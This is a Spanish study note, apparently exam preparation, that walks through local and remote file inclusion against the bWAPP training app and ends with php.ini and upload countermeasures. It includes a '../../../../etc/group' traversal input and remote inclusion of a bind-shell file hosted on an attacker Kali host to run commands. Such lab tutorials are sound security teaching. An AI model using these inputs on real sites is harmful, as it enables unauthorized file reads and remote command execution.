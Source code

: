 
#### LFI (Payload)

La clave para realizar éste ataque es conocer la estructura dentro del servidor de la web. Por ejemplo, si es Apache, por defecto podemos esperar que esté en "/var/www/html"

#### *Ejemplo práctico para Examen*

- En OWASP > bWAPP
- Nos logueamos cn usuario y password (bee:bug)
- Listado desplegable > `Remote and Local File Inclusion (RFI/LFI)`
- Veremos un pequeño form, seleccionaremos idioma > Go
- Observaremos que la barra de direcciones y veremos que en la petición GET uno de los parametros es el nombre de otro archivo PHP
    - [url - get] /bWAPP/rlfi.php?language=lang_en.php&action=go
- Con esta información, podemos **suponer** que se está haciando un **include** para incluir este código incluirá ese archivo .php dentro del .php original
- Con esto, podemos hacer referencia a otros archivos de otros directorios y ver si el php los incluye y muestra en la página
- Partiendo de que está corriendo un Apache, la ruta de la que partimos será `/var/www/html`
- Intentaremos salirnos con `../` para acceder a otros directorios
    - Probaremos a introducir en la url `../../../../etc/group` para ver si muestra el fichero de de group
- Tendremos que poner los ficheros que encontramos en `ficheros_var_www_html` en la ruta del apache de la máquina atacante Kali en `/var/www/html`
- El fichero simplebindshell.php debemos pasarlo a txt > `simplebindshell.txt` para que no se autoejecute
- En la página vulnerable introduciremos nuestro fichero agregando en la url `http://{ip_maquina_kali}/simplebindshell.txt`
- Al final de la url agregamos el parametro `&i=ls` o el comando que queramos que se ejecute remotamente, para este caso será un ls
    - De esta forma podríamos incluso llegar a hacer un `netcat`

#### *Contramedidas contra RFI y LFI*

- Una forma de controlar los ataques RFI es controlar el contenido que los usuarios suben a nuestra web
    - Controlar el tipo del fichero
    - Controlar el contenido del fichero si es posible
    - Si no es necesario no permitir subir ficheros
    - Que los ficheros que se suban sean solo de lectura
- Para evitar los ataques LFI, si usamos PHP, podemos modificar las siguientes opciones del fichero PHP.ini
    - allow_url_include = off; Está opción se usa para evitar que se usen funciones como include en PHP, por eso también es útil para evitar RFI
    - allow_url_fopen = off; Evita que puedan acceder a objetos URL del servidor como ficheros
    - También se debe modificar el servidor web para evitar que puedan salir fuera del directorio raíz
